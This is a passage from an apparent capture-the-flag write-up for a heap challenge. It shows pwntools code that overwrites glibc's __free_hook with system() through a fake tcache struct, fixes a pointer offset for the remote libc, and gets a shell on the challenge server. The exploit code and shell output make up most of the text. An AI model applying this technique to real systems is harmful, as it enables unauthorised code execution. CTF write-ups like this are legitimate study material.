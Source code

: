 ```python
  [rdx] == NULL || rdx == NULL

0xe6ce9 execve("/bin/sh", rsi, rdx)
constraints:
  [rsi] == NULL || rsi == NULL
  [rdx] == NULL || rdx == NULL
```
Cross-referencing between this and the `gdb` context, it becomes apparent that there's no easy one_gadget to jump to.

After spending an hour or so staring at ROP gadgets<sup>6</sup> and potential one_gadget alternatives, I realised the rather obvious exploit path I was missing.

`__free_hook(ptr)` is called with the `ptr` to be freed, which happens to be memory that we're in control of. Why not just jump to `system()`, and put `"/bin/sh"` at the front of the allocated memory?
```python
fake_tcache = tcache_perthread_struct({free_hook-0x8: SIZE})    # -8 to store /bin/sh
r.sendafter('Input your message:', fake_tcache)
r.sendafter('Where to write?:', pack(tcache_pointer))
r.sendafter('Any last message?:', b'/bin/sh\0' + pack(context.libc.symbols['system']))
r.interactive()
```
```python
[*] Switching to interactive mode
$ echo hello
[DEBUG] Sent 0xb bytes:
    b'echo hello\n'
[DEBUG] Received 0x6 bytes:
    b'hello\n'
hello
$
```
It worked.
```
[+] Opening connection to 124.156.183.246 on port 20000: Done
[*] Switching to interactive mode
[*] Got EOF while reading in interactive
$ f
```
...locally. Not on remote.

Long story short, I was using `ld-linux.so --library-path` to simulate the remote `libc-2.31.so` environment, but `ld-linux` doesn't provide a *perfect* subsitute for running the actual libc bare-metal<sup>7</sup>.

Luckily, I had a machine with an extremely similar version of libc available. Debugging on that machine, I realised that the value of the `tcache_pointer` I had calculated earlier was off by 0x40 bytes:
```python
tcache_pointer = 0x7facf8666530-0x00007facf8473000+context.libc.address-0x40
```
With that, we're finally done.
```python
[+] Opening connection to 124.156.183.246 on port 20000: Done
[*] Switching to interactive mode
$ ls
bin
dev
easywrite
flag
lib
lib32
lib64
libx32
run.sh
usr
```